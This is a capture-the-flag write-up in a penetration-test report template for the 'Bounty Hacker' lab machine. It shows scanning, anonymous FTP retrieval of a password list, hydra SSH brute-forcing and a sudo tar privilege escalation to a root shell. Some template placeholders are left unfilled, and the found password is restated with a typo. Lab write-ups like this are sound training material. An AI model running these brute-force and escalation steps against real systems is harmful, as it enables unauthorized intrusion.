


# Pentesting Report - Bounty Hacker 

## Introduction

The Offensive Security Exam penetration test report contains all efforts that were conducted in order to pass the Offensive Security course.
This report should contain all items that were used to pass the overall exam.
This report will be graded from a standpoint of correctness and fullness to all aspects of the  exam.
The purpose of this report is to ensure that the student has a full understanding of penetration testing methodologies as well as the technical knowledge to pass the qualifications for the Offensive Security Certified Professional.

## Objective

The objective of this assessment is to perform an internal penetration test against the Offensive Security Exam network.
The student is tasked with following methodical approach in obtaining access to the objective goals.
This test should simulate an actual penetration test and how you would start from beginning to end, including the overall report.
An example page has already been created for you at the latter portions of this document that should give you ample information on what is expected to pass this course.
Use the sample report as a guideline to get you through the reporting.

## Requirements

The student will be required to fill out this penetration testing report and include the following sections:

- Overall High-Level Summary and Recommendations (non-technical)
- Methodology walkthrough and detailed outline of steps taken
- Each finding with included screenshots, walkthrough, sample code, and proof.txt if applicable.
- Any additional items that were not included

# Sample Report - High-Level Summary

John Doe was tasked with performing an internal penetration test towards Offensive Security Labs.
An internal penetration test is a dedicated attack against internally connected systems.
The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Offensive Security's internal lab systems - the **THINC.local** domain.
John's overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to Offensive Security.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Offensive Security's network.
When performing the attacks, John was able to gain access to multiple machines, primarily due to outdated patches and poor security configurations.
During the testing, John had administrative level access to multiple systems.
All systems were successfully exploited and access granted.
These systems as well as a brief description on how access was obtained are listed below:

- Exam Trophy 1 - Got in through X
- Exam Trophy 2 - Got in through X

## Sample Report - Recommendations

John recommends patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future.
One thing to remember is that these systems require frequent patching and once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Sample Report - Methodologies

John utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Offensive Security Labs and Exam environments are secure.
Below is a breakout of how John was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Sample Report - Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, John was tasked with exploiting the exam network.
The specific IP addresses were:

**Exam Network**

Host: variable

## Sample Report - Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

# Nmap scan host

A Nmap scan of the Bounty Hacker host shows us these ports are open:

```
# Nmap 7.80 scan initiated Mon Aug  3 17:51:36 2020 as: nmap -sC -sV -oN nmap/nmap-basic 10.10.28.139
Nmap scan report for 10.10.28.139
Host is up (0.040s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.8.65
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug  3 17:52:22 2020 -- 1 IP address (1 host up) scanned in 45.80 seconds
```

Connection on the main web site shows us a Cowboy Bebop inspired site:


A quick glance on the source doesn't provide use anything:

```
<html>

<style>
h3 {text-align: center;}
p {text-align: center;}
.img-container {text-align: center;}
</style>

<div class='img-container'>
	
</div>

<body>
<h3>Spike:"..Oh look you're finally up. It's about time, 3 more minutes and you were going out with the garbage."</h3>

<hr>

<h3>Jet:"Now you told Spike here you can hack any computer in the system. We'd let Ed do it but we need her working on something else and you were getting real bold in that bar back there. Now take a look around and see if you can get that root the system and don't ask any questions you know you don't need the answer to, if you're lucky I'll even make you some bell peppers and beef."</h3>

<hr>

<h3>Ed:"I'm Ed. You should have access to the device they are talking about on your computer. Edward and Ein will be on the main deck if you need us!"</h3>

<hr>

<h3>Faye:"..hmph.."</h3>

</body>
</html>
```

We do a gobuster scan on the webserver. There is no robots.txt:

```
$ gobuster dir -u http://10.10.82.228/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -o gobuster/main-raft-dirs.log 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.82.228/
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/03/23 21:18:55 Starting gobuster
===============================================================
/images (Status: 301)
/server-status (Status: 403)
[ERROR] 2021/03/23 21:20:29 [!] parse http://10.10.82.228/error_log: net/url: invalid control character in URL
===============================================================
2021/03/23 21:20:53 Finished
===============================================================
```

```
$ gobuster dir -u http://10.10.82.228/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -o gobuster/main-raft-medium-files-x.log -x php,html,txt,pl
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.82.228/
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,txt,pl
[+] Timeout:        10s
===============================================================
2021/03/23 21:16:15 Starting gobuster
===============================================================
/index.html (Status: 200)
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.pl (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.html (Status: 403)
/. (Status: 200)
/.html (Status: 403)
/.html.txt (Status: 403)
/.html.pl (Status: 403)
/.html.php (Status: 403)
/.html.html (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.pl (Status: 403)
/.htm (Status: 403)
/.htm.pl (Status: 403)
/.htm.php (Status: 403)
/.htm.html (Status: 403)
/.htm.txt (Status: 403)
/.htpasswds (Status: 403)
/.htpasswds.txt (Status: 403)
/.htpasswds.pl (Status: 403)
/.htpasswds.php (Status: 403)
/.htpasswds.html (Status: 403)
/.htgroup (Status: 403)
/.htgroup.txt (Status: 403)
/.htgroup.pl (Status: 403)
/.htgroup.php (Status: 403)
/.htgroup.html (Status: 403)
/.htaccess.bak (Status: 403)
/.htaccess.bak.pl (Status: 403)
/.htaccess.bak.php (Status: 403)
/.htaccess.bak.html (Status: 403)
/.htaccess.bak.txt (Status: 403)
/.htuser (Status: 403)
/.htuser.php (Status: 403)
/.htuser.html (Status: 403)
/.htuser.txt (Status: 403)
/.htuser.pl (Status: 403)
/.ht (Status: 403)
/.ht.php (Status: 403)
/.ht.html (Status: 403)
/.ht.txt (Status: 403)
/.ht.pl (Status: 403)
/.htc (Status: 403)
/.htc.pl (Status: 403)
/.htc.php (Status: 403)
/.htc.html (Status: 403)
/.htc.txt (Status: 403)
===============================================================
2021/03/23 21:21:49 Finished
===============================================================
```

We can log in with anonymous on the FTP server and find 2 files:

```
$ ftp 10.10.82.228
Connected to 10.10.82.228.
220 (vsFTPd 3.0.3)
Name (10.10.82.228:user): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

We download the files and take a look:

```
ftp> binary
200 Switching to Binary mode.
ftp> get locks.txt 
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.05 secs (7.8478 kB/s)
ftp> get task.txt 
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.05 secs (1.3403 kB/s)
ftp> exit 
221 Goodbye.
```

It contains the following text:

```
$ cat task.txt                
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

```
$ cat locks.txt        
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

With Hydra we can easily check if any of the passwords may match a valid credential:

```
$ hydra -l lin -P locks.txt 10.10.82.228 ssh                                                                              255 ⨯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-23 21:31:30
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.82.228:22/
[22][ssh] host: 10.10.82.228   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-03-23 21:31:34
```

We have found the credential lin/RedDr4gonSynt1cat3
Now we can log in with this credential using ssh, and retrieve the user flag:



After retrieving the user flag we try checking Sudo:

```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
lin@bountyhacker:~/Desktop$ 
```

We are presented with a tar command with root permissions.
Tar is known to be easily usable to escalate privileges, see https://gtfobins.github.io/gtfobins/tar/#sudo

```
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Now we can read the root flag:



This was a trivial box.

**Vulnerability Fix:**

Remove unprotected password list, remove anonymous FTP access, remove /bin/tar from sudo list.

## Sample Report - Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

John added administrator and root level accounts on all systems compromised.
In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to ensure that additional access could be established.

## Sample Report - House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organizations computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After the trophies on the exam network were completed, John removed all user accounts and passwords as well as the meterpreter services installed on the system.
Offensive Security should not have to remove any user accounts or services from the system.

# Additional Items Not Mentioned in the Report

This section is placed for any additional items that were not mentioned in the overall report.
